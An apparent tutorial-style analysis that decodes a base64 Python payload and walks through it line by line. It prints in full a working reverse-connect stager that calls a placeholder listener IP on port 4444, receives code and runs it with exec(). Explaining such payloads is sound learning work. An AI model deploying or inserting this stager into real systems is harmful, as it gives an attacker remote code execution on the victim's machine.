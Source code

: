 The string decoded looks like: (Just run it through a base64 decoder you find on google)

```python
import socket,zlib,base64,struct,time
for x in range(10):
	try:
		s=socket.socket(2,socket.SOCK_STREAM)
		s.connect(('LISTENINGSERVER_IP',4444))
		break
	except:
		time.sleep(5)
l=struct.unpack('>I',s.recv(4))[0]
d=s.recv(l)
while len(d)<l:
	d+=s.recv(l-len(d))
exec(zlib.decompress(base64.b64decode(d)),{'s':s})
```

Which is much simpler than I thought. 

---

### Breaking down the payload

To break this down. we import a bunch of library's in this line. This is code that has already been written that we want to use

```python
import socket,zlib,base64,struct,time
```

- Socket - Low-level networking interface
- zlib - Compression and decompression
- base64 - To encode  and decode in base64
- struct - Converts between python and C structs (think of it as an list that can have different variable types)
- time - Lets us perform time related functions

---

Now lets move on to the loop

```python
for x in range(10): // Here we are saying to repeat 10 times
	try:
		s=socket.socket(2,socket.SOCK_STREAM)
		s.connect(('LISTENINGSERVER_IP',4444))
		break
	except:
		time.sleep(5)
```

This will repeat 10 times.

It will attempt (try) to connect to the server, IF it works, then it will stop trying again (break). IF it does not work, then it will wait for 5 seconds, then try again (until the 10 attempts are over)

---